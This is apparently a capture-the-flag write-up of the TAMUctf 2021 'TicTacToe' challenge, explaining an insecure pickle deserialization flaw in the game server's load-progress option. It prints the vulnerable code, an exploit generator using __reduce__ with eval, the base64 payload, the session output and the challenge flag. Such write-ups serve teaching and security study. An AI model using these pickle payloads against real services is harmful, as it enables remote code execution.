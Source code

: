 ```yaml
---
title: "TAMUctf 2021 TicTacToe Solution"
slug: "tictactoe-writeup"
date: "2021-04-26 11:39:00.000000"
author_name: "Javantea"
author_email: "jvoss@altsci.com"
draft: false
toc: false
images:
---
```


TAMUctf 2021
[TicTacToe](https://ctftime.org/task/15801) - 150 points

>    Hey, I made a tic tac toe game! If you can beat me enough times I'll give you a flag.
>    [tictactoe](http://tamuctf.com/static-files/tictactoe)
>    `openssl s_client -connect tamuctf.com:443 -servername tictactoe -quiet`

I tried to solve this without looking at the source code for a while. Spoiler, this is not easy to solve without looking at the source code or at least knowing the vulnerability involved.

It turns out, I know this type of vulnerability quite well. In fact, I found it in a real-life security program. It's that common a vulnerability in real-life. The vulnerability is pickle. Pickle doesn't do deserialization in a safe way allowing for remote code execution as a result.

TicTacToe is actually a funny subcase of pickle vulnerability that doesn't allow direct exploitation of the normal style of pickle exploit (`os.system`). This probably threw a lot of people for a loop considering only 52 teams scored on this problem. Inexplicable!

The vulnerable source code:

```python
        elif selection == "4":
                save = input("What was the code I gave you last time? ")
                data = pickle.loads(base64.b64decode(save))

                if get_hash(data['wins']) != data['security']:
                        print("Hey, the secret code I left isn't correct.  You aren't trying to cheat are you :/")
                        continue
                else:
                        wins = data['wins']
                        print(f"Okay, that all checks out!  I'll mark you down as {wins} wins")
                pass
```


You can see that they are taking input from the user and passing it to `pickle.loads`. That's vulnerable to attacks.

The exploit generator:

```python
import binascii
import pickle
flag='fdsa'
class Exploit(object):
  def __reduce__(self):
    return (__builtins__.eval,('print(flag)',))

a = pickle.dumps(Exploit())
binascii.b2a_base64(a)
```

The exploit:
gASVJwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwLcHJpbnQoZmxhZymUhZRSlC4=

The attack in the form it took as I solved the problem:

```sh
openssl s_client -connect tamuctf.com:443 -servername tictactoe -quiet
depth=0 CN = hulkcybr1
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = hulkcybr1
verify return:1
Welcome to my new game!  I bet you can't beat me 133713371337 times!!  You've won 0 times. 
1. Play game
2. Redeem prize
3. Save progress
4. Load progress
5. Check stats
> 4
What was the code I gave you last time? gASVJwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwLcHJpbnQoZmxhZymUhZRSlC4=
gigem{h3y_7h47_d035n'7_l00k_l1k3_4_p1ckl3d_54v3}
Traceback (most recent call last):
  File "/pwn/game.py", line 149, in <module>
    if get_hash(data['wins']) != data['security']:
TypeError: 'NoneType' object is not subscriptable

```

The flag is `gigem{h3y_7h47_d035n'7_l00k_l1k3_4_p1ckl3d_54v3}`
